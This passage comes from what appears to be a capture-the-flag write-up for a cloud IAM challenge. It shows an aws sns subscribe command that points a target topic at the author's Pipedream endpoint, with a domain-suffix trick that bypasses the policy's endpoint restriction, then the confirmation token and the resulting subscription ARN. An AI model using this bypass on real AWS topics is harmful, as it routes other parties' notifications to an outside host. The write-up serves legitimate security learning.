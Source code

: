 2. **Subscribing to the SNS Topic:**
   - I subscribed to the SNS topic using a custom endpoint (`https://eoz7q6sn8xygiyy.m.pipedream.net/@tbic.wiz.io`), which meets the domain requirement.
  
   - Create HTTPS Endpoint & Capture Responses using Pipedream :

Step 1: Create a Workflow
1. Go to Pipedream Dashboard
2. Click "+ New" and choose Workflow
3. In "Trigger", select:
HTTP / Webhook → "New Requests (HTTP Trigger)"
4. Pipedream will generate a unique HTTPS endpoint (in my case `https://eoz7q6sn8xygiyy.m.pipedream.net/`)

   ```bash
   aws sns subscribe --topic-arn "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications" --protocol https --notification-endpoint https://eoz7q6sn8xygiyy.m.pipedream.net/@tbic.wiz.io
   ```

   The response showed that the subscription was pending confirmation.

3. **Confirming the Subscription:**
   - I received a subscription confirmation message via the request bin, which included a `SubscribeURL`.
   ```json
   {
     "Message": "You have chosen to subscribe to the topic arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications.",
     "SubscribeURL": "https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5875c3b40d43a87e57bf4cf2ded38a3d452f550e8081f1a405d1034eaa65ab868ffb28a01544c874c441e9dd1d670b947e0c814cf06430805cafd41f4f210e9b32cbfcca69f349f61197dbc47f758746c001f8261091d866529fe02fc127def2b3b80d19c73b590b91fd1d7259544f096f"
   }
   ```

4. **Visiting the Confirm Subscription URL:**
   - After confirming the subscription, I received a confirmation response containing the `SubscriptionArn`:

   ```xml
   <ConfirmSubscriptionResponse xmlns="http://sns.amazonaws.com/doc/2010-03-31/">
     <ConfirmSubscriptionResult>
       <SubscriptionArn>arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:7e284ae3-0fd6-4cc5-95e6-1a033974d5d9</SubscriptionArn>
     </ConfirmSubscriptionResult>
   </ConfirmSubscriptionResponse>
   ```
---

## Challenge C4: Admin only?

**Challenge Value:** 10 points  
**Description:**  
The bucket appears to restrict access to a specific admin IAM user, but a misconfiguration allows public access.
